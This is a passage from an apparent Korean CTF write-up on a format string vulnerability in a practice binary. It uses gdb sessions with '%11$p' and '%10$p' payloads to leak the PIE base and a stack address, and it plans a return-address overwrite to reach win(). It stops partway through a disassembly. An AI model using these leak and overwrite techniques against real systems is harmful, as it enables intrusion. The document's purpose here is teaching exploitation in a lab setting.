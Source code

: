 `main+79`의 주소이다. 이 주소에서 `0xa77`을 빼면 PIE base가 된다. FSB를 발생시킬 때 `0x56557060`이 포맷 스트링이 되고 `0xf7fb6000`부터 그 다음 인자로 들어가기 때문에 포맷 스트링을 `"%11$p"`로 주면 `0x56555a77`이 출력될 것이다. 확인해 보자. 입력값은 앞에 25바이트만큼의 더미를 줘서 `"A"*0x19+"%11$p"`로 주면 된다.

```bash
gdb-peda$ x/s 0x56557060
0x56557060 <cmd+32>:	"%11$p\n"
gdb-peda$ c
Continuing.
0x56555a77
1. Edit name.
2. Prep msg.
3. Print msg.
4. Exit.
```

깔끔하게 릭이 된다. 그러면 text 영역의 함수들의 주소는 오프셋을 찾아서 모두 계산할 수 있다.

---

같은 방식으로 스택의 주소도 릭하여 ASLR을 우회할 수 있다. ebp인 `0xffffd158`에 저장된 값이 SFP이기 때문에 이번에는 `"%10$p"`를 포맷 스트링으로 주면 된다.

```bash
gdb-peda$ x/s 0x56557060
0x56557060 <cmd+32>:	"%10$p\n"
gdb-peda$ c
Continuing.
0xffffd168
1. Edit name.
2. Prep msg.
3. Print msg.
4. Exit.
```

이제 스택 영역의 주소도 알아낼 수 있다.

---

이제 어떻게 exploit할지 생각해 보자. full relro가 걸려 있기 때문에 GOT overwrite는 불가능하다. 메뉴를 선택할 때 0을 입력하면 `vuln+276`으로 점프하여 리턴하기 때문에 `vuln()`의 return address를 `win()`의 주소로 덮고 0을 입력하는 방법을 생각해볼 수 있다.

```bash
gdb-peda$ pd vuln
Dump of assembler code for function vuln:
...
   0x56555936 <+100>:	call   0x56555680 <__isoc99_scanf@plt>
   0x5655593b <+105>:	add    esp,0x10
   0x5655593e <+108>:	call   0x56555620 <getchar@plt>
   0x56555943 <+113>:	mov    eax,DWORD PTR [ebp-0x10]
   0x56555946 <+116>:	movzx  eax,al
   0x56555949 <+119>:	cmp    eax,0x1
   0x5655594c <+122>:	je     0x56555969 <vuln+151>
   0x5655594e <+124>:	cmp    eax,0x1
   0x56555951 <+127>:	jg     0x5655595d <vuln+139>
   0x56555953 <+129>:	test   eax,eax
   0x56555955 <+131>:	je     0x565559e6 <vuln+276>
   0x5655595b <+137>:	jmp    0x565559cf <vuln+253>
   0x5655595d <+139>:	cmp    eax,0x2
   0x56555960 <+142>:	je     0x56555996 <vuln+196>
   0x56555962 <+144>:	cmp    eax,0x3
   0x56555965 <+147>:	je     0x565559bb <vuln+233>
   0x56555967 <+149>:	jmp    0x565559cf <vuln+253>
...
```
